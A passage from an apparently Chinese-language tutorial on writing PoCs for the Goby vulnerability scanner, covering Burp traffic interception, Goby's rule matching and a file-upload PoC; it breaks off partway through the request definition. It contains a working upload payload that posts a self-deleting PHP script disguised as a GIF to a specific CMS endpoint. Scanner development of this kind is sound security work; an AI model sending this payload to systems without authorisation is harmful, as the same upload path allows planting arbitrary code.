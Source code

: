 可以看到已经拦截到流量了

[![](https://p0.ssl.qhimg.com/t01b92fb4230e2379fa.png)](https://p0.ssl.qhimg.com/t01b92fb4230e2379fa.png)

**注意：这里也有个小问题，就是如果在 PoC 管理中测试，必须先新建立扫描任务扫完后再去 PoC 管理中测试，Burp 才可以抓到包。**

还有个小技巧，通常修改完 PoC 后需要重启一下 Goby，如果想要快速调试PoC包并观察流量，修改完后可以点击返回到 PoC 管理页面再点击进来.

[![](https://p0.ssl.qhimg.com/t01064134523596e1d5.png)](https://p0.ssl.qhimg.com/t01064134523596e1d5.png)

可以看到流量中明显变化了。

[![](https://p0.ssl.qhimg.com/t0187416a1be7468685.png)](https://p0.ssl.qhimg.com/t0187416a1be7468685.png)

[![](https://p3.ssl.qhimg.com/t01c9cc43f9d02116c7.png)](https://p3.ssl.qhimg.com/t01c9cc43f9d02116c7.png)

### <a class="reference-link" name="1.2%20%E8%AF%86%E5%88%AB%E8%A7%84%E5%88%99%E5%B9%B6%E8%B0%83%E7%94%A8%20PoC"></a>1.2 识别规则并调用 PoC

经过测试发现 Goby 的 PoC 调用规则是先通过 PoC 写的查询规则去查询，如果查询到才会调用 PoC 进行扫描，否则就算你勾选了 PoC 也不会进行调用。具体得查询规则可以查看 Goby 查询语法

[![](https://p0.ssl.qhimg.com/t0123845d412121c341.png)](https://p0.ssl.qhimg.com/t0123845d412121c341.png)

这里就可以发现有时候通过 PoC 管理手动测试的漏洞可以验证成功，而通过扫描的地址无法检测到存在漏洞。

**注意：有时候一些 CMS 需要自己定义一些规则，比如 body=”this is test” || title=”管理登录”之类的，有时候会发现直接扫描域名无法匹配到其规则，如果扫描IP则会匹配到。**



## 0×02 编写文件上传类PoC及EXP

接下来通过一个文件上传类的 PoC/EXP 来讲解一下编写过程中遇到的问题。文件上传的 PoC 规则是需要上传一个输出特定信息并且自删除的脚本。如：

```
&lt;?php echo md5(233);unlink(__FILE__);?&gt;
```

这样的话我们需要在 PoC 处发送两次请求，第一次进行上传文件操作，第二次对上传的文件进行访问并验证，在访问之后这个文件会自动删除。

下面贴出请求代码，讲解我通过代码块写出。

```
"ScanSteps": [
    "AND",
    `{`
      "Request": `{`
        "method": "POST",
        "uri": "/wxapp.php?controller=Goods.doPageUpload",
        "follow_redirect": false,
        //header头的设置,这里最好还是通过Burp抓包把请求头写入防止请求出错
        "header": `{`
          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
          "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
          "Accept-Encoding": "gzip, deflate, br",
          "Connection": "keep-alive",
          "Upgrade-Insecure-Requests": "1",
          "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs"
        `}`,
        "data_type": "text",
        //post数据可以从Burp中直接复制,通过Goby的图形化界面直接复制进去,这里会自动生成
        "data": "\n------WebKitFormBoundary8UaANmWAgM4BqBSs\nContent-Disposition: form-data; name=\"upfile\"; filename=\"test.php\"\nContent-Type: image/gif\n\n&lt;?php echo md5(233);unlink(__FILE__);?&gt;\n\n------WebKitFormBoundary8UaANmWAgM4BqBSs--"
```